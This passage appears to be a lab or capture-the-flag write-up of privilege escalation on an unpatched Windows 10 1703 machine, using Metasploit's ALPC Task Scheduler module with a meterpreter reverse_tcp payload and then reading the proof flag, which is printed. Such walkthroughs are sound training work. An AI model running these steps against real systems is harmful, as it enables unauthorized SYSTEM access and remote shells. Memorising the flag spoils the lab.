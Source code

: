 We see that we are up against an `Windows 10 Enterprise 1703` unpatched.

Therefore, According to my knowledge this is vulnerable to the Task Scheduler Exploit (ALPC).
Here, I will be cheating ever So, Slightly as because the box sucks in performance and I will be using metasploit to escalate by privileges.

![[Pasted image 20210711134439.png]]

We could now use the `alpc` exploit module from metasploit.

```python
msf6 > search alpc

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  exploit/windows/local/alpc_taskscheduler  2018-08-27       normal  No     Microsoft Windows ALPC Task Scheduler Local Privilege Elevation


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/local/alpc_taskscheduler

msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/alpc_taskscheduler) > set lhost tun0
lhost => tun0
msf6 exploit(windows/local/alpc_taskscheduler) > set lport 8888
lport => 8888
msf6 exploit(windows/local/alpc_taskscheduler) > run
```


On running the exploit we get our privileges escalated to `NT Authority/SYSTEM`.

## Getting the root Flag
```python
C:\Windows\system32>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0DCA-A9F4

 Directory of C:\Users\Administrator\Desktop

17/03/2021  17:01    <DIR>          .
17/03/2021  17:01    <DIR>          ..
12/10/2018  23:57                32 proof.txt
               1 File(s)             32 bytes
               2 Dir(s)   9,723,199,488 bytes free

C:\Users\Administrator\Desktop>type proof.txt
type proof.txt
5737DD2EDC29B5B219BC43E60866BE08
```
